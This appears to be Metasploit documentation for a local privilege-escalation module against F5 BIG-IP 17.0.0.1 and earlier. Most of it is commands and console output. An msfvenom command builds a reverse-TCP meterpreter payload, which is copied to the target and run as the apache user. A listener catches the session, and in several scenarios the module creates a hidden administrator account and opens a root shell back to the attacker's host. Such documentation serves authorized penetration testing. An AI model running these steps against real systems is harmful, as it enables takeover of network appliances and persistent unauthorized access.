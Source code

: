 ## Vulnerable Application

The vulnerable application is F5 Big-IP version 17.0.0.1 and below. It can be
downloaded as a VMWare image for free (you have to create an account) from
https://downloads.f5.com. You can register for a free 30-day trial if you like,
but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: Get a non-root session somehow (eg: `use multi/handler` / `set PAYLOAD linux/x64/meterpreter_reverse_tcp` then `./msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.0.0.179 LPORT=4444 -f elf > testexploit.elf && scp testexploit.elf root@10.0.0.162:/tmp && ssh root@10.0.0.162 /bin/bash << EOF
chmod +x /tmp/testexploit.elf
sudo -u apache /tmp/testexploit.elf
EOF`)
4. Do: `use exploit/linux/local/f5_create_user`
5. Do `set SESSION <sessionid>`
6. Do: `run`
7. You should get a session

## Options

### `USERNAME` / `PASSWORD`

The username and final password for the account. If blank, they'll be randomly
generated.

### `CREATE_SESSION`

If set (which is default), will spawn a root session. Otherwise, simply creates
the account.

## Scenarios

### F5 Big-IP 17.0.0.1 - Create a session with random creds

First, get a non-root session however you can. You can use a `multi/handler`
and `msfvenom`:

```
msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp

msf exploit(multi/handler) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:34140) at 2022-11-14 15:59:49 -0800

[...run the payload...]

meterpreter > getuid
Server username: apache

meterpreter > bg

msf exploit(multi/handler) > setg SESSION 1
SESSION => 1
```

To create and run the payload, in another window:

```
$ ./msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.0.0.179 LPORT=4444 -f elf > testexploit.elf && chmod +x testexploit.elf && scp testexploit.elf root@10.0.0.162:/tmp && ssh root@10.0.0.162 sudo -u apache /tmp/testexploit.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1068640 bytes
Final size of elf file: 1068640 bytes
testexploit.elf
```

Now that we have a session, we can just run the module:

```
msf exploit(multi/handler) > use exploit/linux/local/f5_create_user
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user 7yI5vLIK / woquVd36PhcG, then change password to 9d9s83bBPwu5 when creating a session
[+] Service didn't return an error, so user was likely created!
[*] Attempting create a root session...
[*] Sending stage (40168 bytes) to 10.0.0.162
[*] Meterpreter session 2 opened (10.0.0.179:4444 -> 10.0.0.162:45254) at 2022-11-14 16:02:10 -0800

meterpreter > getuid
Server username: root
```

### F5 Big-IP 17.0.0.1 - Create a session with set creds

Create a session as shown above, then:

```
msf exploit(linux/local/f5_create_user) > set USERNAME mymsfdemouser
USERNAME => mymsfdemouser
msf exploit(linux/local/f5_create_user) > set PASSWORD mybigmsfdemopassword
PASSWORD => mybigmsfdemopassword
msf exploit(linux/local/f5_create_user) > set VERBOSE true
VERBOSE => true
msf exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user mymsfdemouser / QVEE0pqM7pAd, then change password to mybigmsfdemopassword when creating a session
[*] Hashing the password with a pseudorandom salt
[+] Service didn't return an error, so user was likely created!
[*] Attempting create a root session...
[*] Sending stage (40164 bytes) to 10.0.0.162
[*] Output from su command: Password: You are required to change your password immediately (root enforced)
(current) BIG-IP password: New BIG-IP password: Retype new BIG-IP password: Changing password for mymsfdemouser.
[*] Meterpreter session 3 opened (10.0.0.179:4444 -> 10.0.0.162:49646) at 2022-11-14 16:03:04 -0800

meterpreter > getuid
Server username: root
```

### F5 Big-IP 17.0.0.1 - Just create an account with random creds

Get a session as shown above, then:

```
msf exploit(linux/local/f5_create_user) > set CREATE_SESSION false
CREATE_SESSION => false
msf exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user hKjGGrlU / yRQijFQjVjqa
[*] Hashing the password with a pseudorandom salt
[+] Service didn't return an error, so user was likely created!
^C[*] Exploit completed, but no session was created.
```

### F5 Big-IP 17.0.0.1 - Just create an account with set creds

Get a session as shown above, then:

```
msf exploit(linux/local/f5_create_user) > set CREATE_SESSION false
CREATE_SESSION => false
msf exploit(linux/local/f5_create_user) > set USERNAME mymsfdemouser2
USERNAME => mymsfdemouser2
msf exploit(linux/local/f5_create_user) > set PASSWORD mybigmsfdemopassword
PASSWORD => mybigmsfdemopassword
msf exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user mymsfdemouser2 / mybigmsfdemopassword
[*] Hashing the password with a pseudorandom salt
[+] Service didn't return an error, so user was likely created!
^C[*] Exploit completed, but no session was created.
```

### F5 Big-IP 17.0.0.1 - Create an account with an error

Get a session as shown above, then (we use a duplicate username):

```

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user mymsfdemouser2 / mybigmsfdemopassword
[*] Hashing the password with a pseudorandom salt
[-] mcp query returned an error message: 01020066:3: The requested user (mymsfdemouser2) already exists in partition Common. (code: 16908390)
```
